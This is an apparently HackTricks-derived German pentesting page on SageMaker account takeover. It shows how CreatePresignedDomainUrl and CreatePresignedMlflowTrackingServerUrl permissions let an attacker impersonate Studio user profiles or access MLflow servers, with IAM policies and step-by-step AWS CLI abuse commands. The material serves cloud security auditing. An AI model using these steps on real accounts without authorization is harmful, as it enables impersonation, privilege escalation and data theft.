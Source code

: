 # AWS - SageMaker Unbefugter Zugriff

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Account Takeover via CreatePresignedDomainUrl (Impersonate Any UserProfile)

### Beschreibung
Eine Identität mit der Berechtigung, `sagemaker:CreatePresignedDomainUrl` auf einem Ziel-`UserProfile` des Studio aufzurufen, kann eine Login-URL erzeugen, die direkt in SageMaker Studio als dieses Profil authentifiziert. Dadurch erhält der Browser des Angreifers eine Studio-Sitzung, die die `ExecutionRole`-Berechtigungen des Profils übernimmt und vollen Zugriff auf das EFS-gespeicherte Home-Verzeichnis und die Apps des Profils gewährt. Weder `iam:PassRole` noch Console-Zugriff sind erforderlich.

### Anforderungen
- Eine SageMaker Studio `Domain` und ein Ziel-`UserProfile` darin.
- Der Angreifer-Principal benötigt `sagemaker:CreatePresignedDomainUrl` auf dem Ziel-`UserProfile` (Ressourcen‑Ebene) oder `*`.

Minimales Policy-Beispiel (auf ein UserProfile beschränkt):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Missbrauchsschritte

1) Enumerate a Studio Domain und UserProfiles, die Sie anvisieren können
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Generiere eine presigned URL (standardmäßig etwa 5 Minuten gültig)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Öffnen Sie die zurückgegebene URL in einem Browser, um sich bei Studio als Zielbenutzer anzumelden. In einem Jupyter-Terminal innerhalb von Studio überprüfen Sie die effektive Identität:
```bash
aws sts get-caller-identity
```
Hinweise:
- `--landing-uri` kann weggelassen werden. Einige Werte (z. B. `app:JupyterLab:/lab`) können je nach Studio‑Variante/-Version abgelehnt werden; Standardwerte leiten typischerweise zur Studio‑Startseite und dann zu Jupyter weiter.
- Organisationsrichtlinien/VPC-Endpoint-Einschränkungen können den Netzwerkzugriff dennoch blockieren; die Token-Ausstellung erfordert keine Konsolen-Anmeldung oder `iam:PassRole`.

### Auswirkungen
- Laterale Bewegung und Privilegieneskalation durch das Übernehmen eines beliebigen Studio `UserProfile`, dessen ARN erlaubt ist, wodurch dessen `ExecutionRole` sowie Dateisystem/Apps geerbt werden.

### Belege (aus einem kontrollierten Test)
- Mit nur `sagemaker:CreatePresignedDomainUrl` auf einem Ziel-`UserProfile` gab die Angreiferrolle erfolgreich eine `AuthorizedUrl` zurück, wie:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- Eine direkte HTTP-Anfrage antwortet mit einer Weiterleitung (HTTP 302) zu Studio, was bestätigt, dass die URL gültig und bis zum Ablauf aktiv ist.


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Beschreibung
Eine Identität mit der Berechtigung, `sagemaker:CreatePresignedMlflowTrackingServerUrl` für einen Ziel-SageMaker MLflow Tracking Server aufzurufen, kann eine einmalig verwendbare presigned URL erstellen, die sich direkt am verwalteten MLflow UI dieses Servers authentifiziert. Das gewährt denselben Zugriff, den ein legitimer Benutzer auf den Server hätte (Experimente und Runs anzeigen/erstellen sowie Artefakte im S3 artifact store des Servers herunterladen/hochladen), ohne Zugriff auf die Konsole oder `iam:PassRole`.

### Voraussetzungen
- Ein SageMaker MLflow Tracking Server im Account/der Region sowie dessen Name.
- Der angreifende Principal benötigt `sagemaker:CreatePresignedMlflowTrackingServerUrl` auf der Ziel-MLflow Tracking Server-Ressource (oder `*`).

Minimales Policy-Beispiel (auf einen Tracking Server beschränkt):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Missbrauchsschritte

1) MLflow Tracking Servers enumerieren, die du anvisieren kannst, und einen Namen auswählen
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) Generiere eine presigned MLflow UI URL (für kurze Zeit gültig)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Öffnen Sie die zurückgegebene URL in einem Browser, um auf die MLflow UI als authentifizierter Benutzer für diesen Tracking Server zuzugreifen.

Notes:
- Der Tracking Server muss sich in einem betriebsbereiten Zustand befinden (z. B. `Created/Active`). Befindet er sich noch im Status `Creating`, wird der Aufruf abgelehnt.
- Die presigned URL ist einmalig verwendbar und kurzlebig; erzeugen Sie bei Bedarf eine neue.

### Auswirkungen
- Direkter Zugriff auf die verwaltete MLflow UI für den anvisierten Tracking Server, wodurch das Anzeigen und Ändern von experiments/runs sowie das Abrufen oder Hochladen von Artefakten, die im konfigurierten S3 artifact store des Servers gespeichert sind, innerhalb der von der Serverkonfiguration durchgesetzten Berechtigungen ermöglicht wird.

{{#include ../../../../banners/hacktricks-training.md}}
